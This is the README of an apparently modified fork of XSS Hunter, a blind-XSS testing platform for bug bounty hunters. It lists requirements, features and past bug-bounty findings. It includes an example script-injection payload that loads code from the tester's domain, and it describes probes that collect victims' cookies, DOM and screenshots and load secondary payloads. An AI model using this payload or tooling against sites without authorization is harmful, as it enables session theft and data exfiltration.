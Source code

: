 XSS Hunter修改版，文章：[XSS Hunter平台搭建记录](https://wtfsec.org/posts/xss-hunter%E5%B9%B3%E5%8F%B0%E6%90%AD%E5%BB%BA%E8%AE%B0%E5%BD%95/)

# XSS Hunter Source Code

This is a portable version of the source code running on https://xsshunter.com. It is designed to be easily-installable on any server for security professionals and bug bounty hunters who wish to test for XSS in a much more powerful way.

**If you don't want to set up this software and would rather just start testing, see https://xsshunter.com .**

# Requirements
* A server running (preferably) Ubuntu.
* A [Mailgun](http://www.mailgun.com/) account, for sending out XSS payload fire emails.
* A domain name, preferably something short to keep payload sizes down. Here is a good website for finding two letter domain names: [https://catechgory.com/](https://catechgory.com/). My domain is [xss.ht](xss.ht) for example.
* A wildcard SSL certificate, [here's a cheap one](https://www.namecheap.com/security/ssl-certificates/wildcard.aspx). This is required because XSS Hunter identifies users based off of their sub-domains and they all need to be SSL-enabled. We can't use Let's Encrypt because [they don't support wildcard certificates](https://community.letsencrypt.org/t/frequently-asked-questions-faq/26). I'm going to hold off on insulting the CA business model, but rest assured it's very silly and costs them very little to mint you a wildcard certificate so go with the cheapest provider you can find (as long as it's supported in all browsers).
  
# Setup
Please see https://thehackerblog.com/xss-hunter-is-now-open-source-heres-how-to-set-it-up/ for information on how to set up XSS Hunter on your own server.

# Summary of Functionality
*Upon signing up you will create a special short domain such as `yoursubdomain.xss.ht` which identifies your XSS vulnerabilities and hosts your payload. You then use this subdomain in your XSS testing, using injection attempts such as `"><script src=//yoursubdomain.xss.ht></script>`. XSS Hunter will automatically serve up XSS probes and collect the resulting information when they fire.*

# Features
* **Managed XSS payload fires**: Manage all of your XSS payloads in your XSS Hunter account's control panel.
* **Powerful XSS Probes**: The following information is collected everytime a probe fires on a vulnerable page:
    * The vulnerable page's URI 
    * Origin of Execution 
    * The Victim's IP Address 
    * The Page Referer 
    * The Victim's User Agent 
    * All Non-HTTP-Only Cookies 
    * The Page's Full HTML DOM 
    * Full Screenshot of the Affected Page 
    * Responsible HTTP Request (If an XSS Hunter compatible tool is used) 
* **Full Page Screenshots**: XSS Hunter probes utilize the HTML5 canvas API to generate a full screenshot of the vulnerable page which an XSS payload has fired on. With this feature you can peak into internal administrative panels, support desks, logging systems, and other internal web apps. This allows for more powerful reports that show the full impact of the vulnerability to your client or bug bounty program.
* **Markup Report Generation**: Each XSS payload report comes with a pre-generated markdown report. These generated reports are also compatible with other markdown-supporting platforms such as Phabricator for easy bug reporting on company ticketing systems.
* **XSS Payload Fire Email Reports**: XSS payload fires also send out detailed email reports which can be easily forwarded to the appropriate security contacts for easy reporting of critical bugs.
* **Automatic Payload Generation**: XSS Hunter automatically generates XSS payloads for you to use in your web application security testing.
* **Correlated Injections**: Perhaps the most powerful feature of XSS Hunter is the ability to correlated injection attempts with XSS payload fires. By using an [XSS Hunter compatible testing tool](https://github.com/mandatoryprogrammer/xsshunter_client) you can know immediately what caused a specific payload to fire (even weeks after the injection attempt was made!).
* **Option PGP Encryption for Payload Emails**: Extra paranoid? Client-side PGP encryption is available which will encrypt all injection data in the victim's browser before sending it off to the XSS Hunter service.
* **Page Grabbing**: Upon your XSS payload firing you can specify a list of relative paths for the payload to automatically retrieve and store. This is useful in finding other vulnerabilities such as bad `crossdomain.xml` policies on internal systems which normally couldn't be accessed.
* **Secondary Payload Loading**: Got a secondary payload that you want to load after XSS Hunter has done it's thing? XSS Hunter offers you the option to specify a secondary JavaScript payload to run after it's completed it's collection.
* **iOS Web Application**: It is also possible to view your XSS payload fires via an iOS web app. Simple navigate to the `/app` path and save the page as a web application to your iPhone's desktop.

# Notable Exploits
* Blind XSS in Tesla's internal servicing tool: https://samcurry.net/cracking-my-windshield-and-earning-10000-on-the-tesla-bug-bounty-program/
* Blind XSS in Spotify's Salesforce integration: https://mhmdiaa.github.io/blind-xss-in-spotify/
* Blind XSS in GoDaddy's support panel: https://thehackerblog.com/poisoning-the-well-compromising-godaddy-customer-support-with-blind-xss/

# Want to Contribute?
All code was created by me and (for that reason) is likely *not* best practice and *definitely* in need of optimization/cleanup. Any pull requests are appreciated!
